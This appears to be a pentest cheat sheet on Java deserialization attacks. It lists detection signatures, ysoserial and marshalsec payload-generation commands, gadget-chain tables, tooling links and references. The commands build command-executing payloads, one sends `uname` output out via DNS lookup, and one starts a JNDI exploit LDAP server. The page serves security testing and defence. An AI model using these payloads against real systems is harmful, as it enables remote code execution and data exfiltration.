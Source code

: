 # Java Deserialization

## Detection

- `"AC ED 00 05"` in Hex
  * `AC ED`: STREAM_MAGIC. Specifies that this is a serialization protocol.
  * `00 05`: STREAM_VERSION. The serialization version.
- `"rO0"` in Base64
- Content-type = "application/x-java-serialized-object"
- `"H4sIAAAAAAAAAJ"` in gzip(base64)

## Tools

### Ysoserial

[frohoff/ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

**List of payloads included in ysoserial:**
```ps1
Payload             Authors                                Dependencies                                                                                                                                                                                        
-------             -------                                ------------                                                                                                                                                                                        
AspectJWeaver       @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2                                                                                                                                                      
BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5                                                                                                                                                                                           
C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                                                                                                           
Click1              @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0                                                                                                                                                         
Clojure             @JackOfMostTrades                      clojure:1.8.0                                                                                                                                                                                       
CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                                                                                               
CommonsCollections1 @frohoff                               commons-collections:3.1                                                                                                                                                                             
CommonsCollections2 @frohoff                               commons-collections4:4.0                                                                                                                                                                            
CommonsCollections3 @frohoff                               commons-collections:3.1                                                                                                                                                                             
CommonsCollections4 @frohoff                               commons-collections4:4.0                                                                                                                                                                            
CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                                                                                                             
CommonsCollections6 @matthias_kaiser                       commons-collections:3.1                                                                                                                                                                             
CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                                                                                                             
FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
Groovy1             @frohoff                               groovy:2.3.9                                                                                                                                                                                        
Hibernate1          @mbechler                                                                                                                                                                                                                                  
Hibernate2          @mbechler                                                                                                                                                                                                                                  
JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                            
JRMPClient          @mbechler                                                                                                                                                                                                                                  
JRMPListener        @mbechler                                                                                                                                                                                                                                  
JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                        
Jdk7u21             @frohoff                                                                                                                                                                                                                                   
Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                             
MozillaRhino1       @matthias_kaiser                       js:1.7R2                                                                                                                                                                                            
MozillaRhino2       @_tint0                                js:1.7R2                                                                                                                                                                                            
Myfaces1            @mbechler                                                                                                                                                                                                                                  
Myfaces2            @mbechler                                                                                                                                                                                                                                  
ROME                @mbechler                              rome:1.0                                                                                                                                                                                            
Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                               
Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                           
URLDNS              @gebl                                                                                                                                                                                                                                      
Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                          
Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4   
```

### Burp extensions using ysoserial

- [JavaSerialKiller](https://github.com/NetSPI/JavaSerialKiller)
- [Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner)
- [Burp-ysoserial](https://github.com/summitt/burp-ysoserial)
- [SuperSerial](https://github.com/DirectDefense/SuperSerial)
- [SuperSerial-Active](https://github.com/DirectDefense/SuperSerial-Active)

### Alternative Tooling

- [pwntester/JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget)
- [joaomatosf/JexBoss](https://github.com/joaomatosf/jexboss) - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool
- [pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified)
- [NickstaDB/SerialBrute](https://github.com/NickstaDB/SerialBrute) - Java serialization brute force attack tool
- [NickstaDB/SerializationDumper](https://github.com/NickstaDB/SerializationDumper) - A tool to dump Java serialization streams in a more human readable form
- [bishopfox/gadgetprobe](https://labs.bishopfox.com/gadgetprobe)
- [mbechler/marshalsec](https://github.com/mbechler/marshalsec) - Turning your data into code execution

```java
$ java -cp marshalsec.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
$ java -cp marshalsec.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"
$ java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://localhost:8000\#exploit.JNDIExploit 1389

-a - generates/tests all payloads for that marshaller
-t - runs in test mode, unmarshalling the generated payloads after generating them.
-v - verbose mode, e.g. also shows the generated payload in test mode.
gadget_type - Identifier of a specific gadget, if left out will display the available ones for that specific marshaller.
arguments - Gadget specific arguments
```

Payload generators for the following marshallers are included:<br />

| Marshaller                      | Gadget Impact
| ------------------------------- | ----------------------------------------------
| BlazeDSAMF(0&#124;3&#124;X)     | JDK only escalation to Java serialization<br/>various third party libraries RCEs
| Hessian&#124;Burlap             | various third party RCEs
| Castor                          | dependency library RCE
| Jackson                         | **possible JDK only RCE**, various third party RCEs
| Java                            | yet another third party RCE
| JsonIO                          | **JDK only RCE**
| JYAML                           | **JDK only RCE**
| Kryo                            | third party RCEs
| KryoAltStrategy                 | **JDK only RCE**
| Red5AMF(0&#124;3)               | **JDK only RCE**
| SnakeYAML                       | **JDK only RCEs**
| XStream                         | **JDK only RCEs**
| YAMLBeans                       | third party RCE

## Gadgets

Require:
* `java.io.Serializable`




## References

- [Github - ysoserial](https://github.com/frohoff/ysoserial)
- [Triggering a DNS lookup using Java Deserialization - paranoidsoftware.com](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
- [Detecting deserialization bugs with DNS exfiltration - Philippe Arteau | Mar 22, 2017](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)
- [Java-Deserialization-Cheat-Sheet - GrrrDog](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet/blob/master/README.md)
- [Understanding & practicing java deserialization exploits](https://diablohorn.com/2017/09/09/understanding-practicing-java-deserialization-exploits/)
- [How i found a 1500$ worth Deserialization vulnerability - @D0rkerDevil](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities - 14 Aug 2017, Peter Stöckli](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
- [Jackson CVE-2019-12384: anatomy of a vulnerability class](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [On Jackson CVEs: Don’t Panic — Here is what you need to know](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
- [Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464) - Michael Stepankin / @artsploit - 29 June 2021](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464)
